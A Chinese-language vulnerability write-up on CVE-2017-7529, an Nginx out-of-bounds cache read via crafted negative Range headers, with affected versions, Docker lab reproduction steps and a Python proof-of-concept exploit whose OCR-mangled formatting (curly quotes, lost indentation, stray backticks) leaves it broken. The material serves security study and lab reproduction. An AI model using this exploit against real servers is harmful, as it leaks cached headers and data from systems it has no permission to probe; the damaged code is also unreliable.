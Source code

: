 ```yaml
---
title: "（CVE-2017-7529）Nginx 越界读取缓存漏洞"
id: zhfly3047
---
```


# （CVE-2017-7529）Nginx 越界读取缓存漏洞

## 一、漏洞简介

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 二、漏洞影响

*   Nginx Nginx:1.13.2
*   Nginx Nginx:1.13.1
*   Nginx Nginx:1.13.0
*   Nginx Nginx:1.11.13
*   Nginx Nginx:1.11.12

## 三、复现过程

运行测试环境：

```
docker-compose up -d 
```

访问`http://www.0-sec.org:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py http://www.0-sec.org:8080/`，读取返回结果

![image](../img/2ee005ce93fcda1c316a3b1c32b89e0b.png)

可见，越界读取到了位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

### poc

```
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:

print("%s url" % (sys.argv[0]))

print(“eg: python %s [http://your-ip:8080/](http://your-ip:8080/)” % (sys.argv[0]))

sys.exit()

headers = {

‘User-Agent’: “Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240”

}

offset = 605

url = sys.argv[1]

file_len = len(requests.get(url, headers=headers).content)

n = file_len + offset

headers[‘Range’] = “bytes=-%d,-%d” % (

n, 0x8000000000000000 - n) `r = requests.get(url, headers=headers)

print(r.text)` 
```

## 参考链接

> https://vulhub.org/#/environments/nginx/CVE-2017-7529/